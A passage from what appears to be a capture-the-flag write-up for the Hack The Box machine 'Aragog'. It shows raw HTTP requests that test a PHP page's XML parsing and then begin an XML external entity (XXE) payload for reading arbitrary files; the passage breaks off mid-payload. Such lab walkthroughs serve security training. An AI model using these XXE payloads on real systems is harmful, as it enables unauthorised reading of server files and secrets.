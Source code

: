 The webpage says: *There are 4294967294 possible hosts for*. Strange... Is this maybe linked to the previous txt file we found on the FTP server? Is this PHP site calculating the amount of hosts on a subnet based on XML input? Can we maybe inject malicious XML?

***

# Exploitation
Indeed, we can! First of all, verify if our assumptions are correct. By submitting a special type of HTTP request (using Burpsuite interception proxy for example): 
```console
GET /hosts.php HTTP/1.1
Host: 10.10.10.78
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 211

<details>
    <subnet_mask>255.255.255.0</subnet_mask>
    <test></test>
</details>
```
we will get a valid return page with the amount of hosts a subnet would have.

<a href="/img/blog/htb-aragog/htb-aragog-03.png" target="_blank"><img class="centerImgSmall" src="/img/blog/htb-aragog/htb-aragog-03.png"></a>

This means that there is something on the backend that parses our XML input. If improperly handled, an attacker can do malicious stuff. By defining an external entity, an attacker can include any content which he/she wants to read. Upon parsing, this entity will be read out which will hence print content of targeted file. This type of attack is called XXE (XML external entity attack). 

So, doing a bit of XML magic, we can read any file on the file server (considering we have the read permission to the given file):

```console
GET /hosts.php HTTP/1.1
Host: 10.10.10.78
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 211

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
```